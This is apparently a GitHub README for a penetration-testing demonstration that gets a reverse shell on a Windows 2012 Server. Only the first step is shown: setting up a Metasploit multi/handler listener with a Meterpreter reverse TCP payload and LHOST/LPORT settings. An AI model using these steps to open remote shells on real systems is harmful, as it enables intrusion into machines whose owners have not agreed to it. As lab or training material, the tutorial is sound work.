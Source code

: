# theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  -1 - sudo msfconsole <br>
  -2 - use multi/handler <br>
  -3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  -4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  -5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  


